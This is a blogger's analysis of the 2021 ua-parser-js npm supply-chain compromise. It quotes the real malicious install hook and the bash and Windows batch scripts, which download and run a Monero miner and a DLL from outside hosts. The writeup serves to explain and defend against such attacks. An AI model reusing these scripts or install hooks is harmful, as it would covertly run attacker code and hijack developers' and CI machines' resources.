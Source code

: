 ```yaml
---
title: "ua-parser-js Compromise"
date: 2021-10-24
tags: ["security"]
---
```


_Obvious Disclaimer: I'm not a professional security researcher.  I dabble in
these things and more pursue these things out of curiosity.  Let me know what I
got wrong._

Today I read that there was another victim of a Supply Chain attack, a NPM
module author had a few of their modules compromised, one of which (the one I
read about) was `ua-parser.js`.  This module provides detection of various
platform data from user agent strings.

There were a few offending versions, all of which were promptly taken down.  The
author [reported in the GitHub
issue](https://github.com/faisalman/ua-parser-js/issues/536) that the attacker
compromised an account without 2 factor authentication and published 3 rouge
versions.

Inspired by YouTubers like [John
Hammond](https://www.youtube.com/channel/UCVeW9qkBjo3zosnqUbG7CFw), I dug into
this a bit to satisfy my own curiosity.

## How The Payload Was Installed

This was pretty simple, as NPM itself provides hooks that packages can use to
perform extra steps during installation.  This is fairly common, and in this
case the attacker used it to download and execute their payload.

This is the hook code in question:

```js
const { exec } = require("child_process");

function terminalLinux(){
    exec("/bin/bash preinstall.sh", (error, stdout, stderr) => {
        if (error) {
            console.log(`error: ${error.message}`);
            return;
        }
        if (stderr) {
            console.log(`stderr: ${stderr}`);
            return;
        }
        console.log(`stdout: ${stdout}`);
    });
}

var opsys = process.platform;
if (opsys == "darwin") {
    opsys = "MacOS";
} else if (opsys == "win32" || opsys == "win64") {
    opsys = "Windows";
    const { spawn } = require('child_process');
    const bat = spawn('cmd.exe', ['/c', 'preinstall.bat']);
} else if (opsys == "linux") {
    opsys = "Linux";
    terminalLinux();
}
```

This node code was executed and then ran a script appropriate to your platform.
Both did basically the same thing, but this is the bash version.

```sh
IP=$(curl -k https://freegeoip.app/xml/ | grep 'RU\|UA\|BY\|KZ')
if [ -z "$IP" ]
    then
    var=$(pgrep jsextension)
    if [ -z "$var" ]
        then
        curl http://159.148.186.228/download/jsextension -o jsextension 
        if [ ! -f jsextension ]
            then
            wget http://159.148.186.228/download/jsextension -O jsextension
        fi
        chmod +x jsextension
        ./jsextension -k --tls --rig-id q -o pool.minexmr.com:443 -u ---- --cpu-max-threads-hint=50 --donate-level=1 --background &>/dev/null &
    fi
fi
```

(some info redacted)

This script first checks if your in Russia, Ukrane, Belarus, or Kazakhstan and
skip execution if your IP is in those countries.

It then downloads a file called `jsextension`, but appears to really be a crypto
miner.  I can't download this and verify myself as the server hosting the file
appears to have already been shutdown.

This code ran as a hook in NPM, which only runs when using `npm` commands like
`npm install` and `npm ci`.  Therefore, the payload would only have been
downloaded on developer or CI machines that were installing node packages.

## Windows

The windows payload looks a bit more complex:

```bat
@echo off
curl http://159.148.186.228/download/jsextension.exe -o jsextension.exe
if not exist jsextension.exe (
    wget http://159.148.186.228/download/jsextension.exe -O jsextension.exe
)
if not exist jsextension.exe (
    certutil.exe -urlcache -f http://159.148.186.228/download/jsextension.exe jsextension.exe
)
curl https://citationsherbe.at/sdd.dll -o create.dll
if not exist create.dll (
    wget https://citationsherbe.at/sdd.dll -O create.dll
)
if not exist create.dll (
    certutil.exe -urlcache -f https://citationsherbe.at/sdd.dll create.dll
)
set exe_1=jsextension.exe
set "count_1=0"
>tasklist.temp (
tasklist /NH /FI "IMAGENAME eq %exe_1%"
)
for /f %%x in (tasklist.temp) do (
if "%%x" EQU "%exe_1%" set /a count_1+=1
)
if %count_1% EQU 0 (start /B .\jsextension.exe -k --tls --rig-id q -o pool.minexmr.com:443 -u --- --cpu-max-threads-hint=50 --donate-level=1 --background & regsvr32.exe -s create.dll)
del tasklist.temp
```

I'm working on digging into that `create.dll` file that gets downloaded, it
seems spooky-wooky to me, but I'll do a separate writeup of it because I have to
refresh my Windows skills.

## 159.148.186.228

This server belongs to a hosting company, and the payload was already removed
(and the server no longer listening on 443 or 80), so I presume the hosting
company caught wind and shut it down.

I did look at [shodan](https://www.shodan.io/host/159.148.186.228) to see if
there was anything interesting, and it looks like just VNC and X11 were running
on the machine.

I don't have access to the history, but I assume this IP is shared at the
hosting provider, so I doubt any of that information would be of substantial
use.

## jsextension

This was the main payload the hook tried to download, and I couldn't get a copy
of it outright.  I found that
[Sonatype](https://blog.sonatype.com/newly-found-npm-malware-mines-cryptocurrency-on-windows-linux-macos-devices)
ran it through
[VirusTotal](https://www.virustotal.com/gui/file/7f986cd3c946f274cdec73f80b84855a77bc2a3c765d68897fbc42835629a5d5).

Lots of programs flagged that executable, and in the details I saw another name
it was found by was `xmrig.exe`.

[XMRig](https://github.com/xmrig/xmrig) is a CPU and GPU coin miner, so the
intention of this compromise is pretty clear: mine coins.

## Mining Pool

One other thing I did note, was that the attacker set up the miner to use a
pool.  `minexmr.com` (rather `pool.minexmr.com`) is configured in the CLI flags
(along with the user's coin address, which I've removed), and is a Monero mining
pool.

The pool does provide a dashboard to see your mining stats, and I was able to
login with the key provided graciously by the attacker in their payload.  As of
this writing, the attacker still had active connections to the pool (although,
they all share the same name so it's unclear how many targets there were), and
had only been active for the past few days.

Also, the attacker seemed to be successful (at least from a monetary
perspective) and had $16 in their pool account.  Monero by design doesn't allow
you to view transactions associated with an address, so we can't know their
total earnings.  The pool also appears to have an automatic transfer-out
feature, so it's very likely they had already had transfers out already.

## Wrapping Up

Nothing earth shattering in this attack, user with 2 factor auth had their
account compromised and someone wanted to mine some crypto.

At the end of the day, it's another good argument for 2 factor authentication
everywhere, and evaluating your supply chain.  NPM packages have a reputation
for being extraordinarily recursive, so it's possible your had a potentially
compromised package without your direct knowledge.

